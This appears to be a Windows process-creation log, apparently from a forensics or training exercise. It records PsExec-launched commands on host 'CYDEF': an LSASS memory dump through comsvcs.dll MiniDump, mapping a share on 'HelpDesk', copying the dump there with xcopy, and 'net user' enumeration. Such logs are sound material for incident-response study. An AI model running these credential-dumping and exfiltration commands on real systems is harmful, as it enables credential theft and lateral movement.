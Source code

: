 | 2024-09-18 11:45:06    | 1208  | NT AUTHORITY\SYSTEM   | C:\Windows\System32\services.exe              | 676       | 8eef5967-b29e-66ea-0b00-000000000b00         | C:\Windows\system32\services.exe                                  | C:\Windows\PSEXESVC.exe                                                                                               |
| 2024-09-18 11:45:06    | 1208  | CYDEF\Administrator   | C:\Windows\PSEXESVC.exe                       | 5344      | 8eef5967-bd42-66ea-7a01-000000000b00         | C:\Windows\PSEXESVC.exe                                           | "powershell.exe" -command "rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\windows\temp\lsass.dmp full" |
| 2024-09-18 11:45:07    | 1208  | CYDEF\Administrator   | C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe | 3968      | 8eef5967-bd42-66ea-7c01-000000000b00         | "powershell.exe" -command "rundll32.exe c:\Windows\System32\comsvcs.dll, MiniDump ((Get-Process lsass).Id) C:\windows\temp\lsass.dmp full" | "C:\Windows\system32\rundll32.exe" c:\Windows\System32\comsvcs.dll MiniDump 684 C:\windows\temp\lsass.dmp full        |
| 2024-09-18 11:46:20    | 1208  | NT AUTHORITY\SYSTEM   | C:\Windows\System32\services.exe              | 676       | 8eef5967-b29e-66ea-0b00-000000000b00         | C:\Windows\system32\services.exe                                  | C:\Windows\PSEXESVC.exe                                                                                               |
| 2024-09-18 11:46:20    | 1208  | CYDEF\Administrator   | C:\Windows\PSEXESVC.exe                       | 1520      | 8eef5967-bd8c-66ea-7f01-000000000b00         | C:\Windows\PSEXESVC.exe                                           | "cmd.exe" /c "net use Z: \\HelpDesk\Dump_out"                                                                         |
| 2024-09-18 11:46:20    | 1208  | CYDEF\Administrator   | C:\Windows\System32\cmd.exe                   | 4704      | 8eef5967-bd8c-66ea-8101-000000000b00         | "cmd.exe" /c "net use Z: \\HelpDesk\Dump_out"                       | net  use Z: \\HelpDesk\Dump_out                                                                                       |
| 2024-09-18 11:48:25    | 1208  | NT AUTHORITY\SYSTEM   | C:\Windows\System32\services.exe              | 676       | 8eef5967-b29e-66ea-0b00-000000000b00         | C:\Windows\system32\services.exe                                  | C:\Windows\PSEXESVC.exe                                                                                               |
| 2024-09-18 11:48:25    | 1208  | CYDEF\Administrator   | C:\Windows\PSEXESVC.exe                       | 3096      | 8eef5967-be09-66ea-8401-000000000b00         | C:\Windows\PSEXESVC.exe                                           | "cmd.exe" /c "xcopy C:\windows\temp\lsass.dmp Z:\lsass.dmp /Y"                                                        |
| 2024-09-18 11:48:25    | 1208  | CYDEF\Administrator   | C:\Windows\System32\cmd.exe                   | 3184      | 8eef5967-be09-66ea-8601-000000000b00         | "cmd.exe" /c "xcopy C:\windows\temp\lsass.dmp Z:\lsass.dmp /Y"      | xcopy  C:\windows\temp\lsass.dmp Z:\lsass.dmp /Y                                                                       |
| 2024-09-18 11:49:44    | 1208  | NT AUTHORITY\SYSTEM   | C:\Windows\System32\svchost.exe               | 424       | 8eef5967-b29f-66ea-1300-000000000b00         | C:\Windows\system32\svchost.exe -k netsvcs -p                      | C:\Windows\system32\rundll32.exe /d acproxy.dll,PerformAutochkOperations                                              |
| 2024-09-18 11:50:10    | 1208  | NT AUTHORITY\SYSTEM   | C:\Windows\System32\svchost.exe               | 424       | 8eef5967-b29f-66ea-1300-000000000b00         | C:\Windows\system32\svchost.exe -k netsvcs -p                      | taskhostw.exe NGCKeyPregen                                                                                            |
| 2024-09-18 11:50:11    | 1208  | NT AUTHORITY\SYSTEM   | C:\Windows\System32\services.exe              | 676       | 8eef5967-b29e-66ea-0b00-000000000b00         | C:\Windows\system32\services.exe                                  | C:\Windows\PSEXESVC.exe                                                                                               |
| 2024-09-18 11:50:11    | 1208  | CYDEF\Administrator   | C:\Windows\PSEXESVC.exe                       | 4136      | 8eef5967-be73-66ea-8b01-000000000b00         | C:\Windows\PSEXESVC.exe                                           | "cmd.exe" /c "net user"                                                                                               |
| 2024-09-18 11:50:11    | 1208  | CYDEF\Administrator   | C:\Windows\System32\cmd.exe                   | 4756      | 8eef5967-be73-66ea-8d01-000000000b00         | "cmd.exe" /c "net user"                                           | net  user                                                                                                             |
| 2024-09-18 11:50:11    | 1208  | CYDEF\Administrator   | C:\Windows\System32\net.exe                   | 5820      | 8eef5967-be73-66ea-8f01-000000000b00         | net  user                                                         | C:\Windows\system32\net1  user                                                                                         |
| 2024-09-18 11:50:17    | 1208  | NT AUTHORITY\SYSTEM   | C:\Windows\System32\winlogon.exe              | 600       | 8eef5967-b29e-66ea-0a00-000000000b00         | winlogon.exe                                                      | "LogonUI.exe" /flags:0x0 /state0:0xa38b8055 /state1:0x41c64e6d                                                        |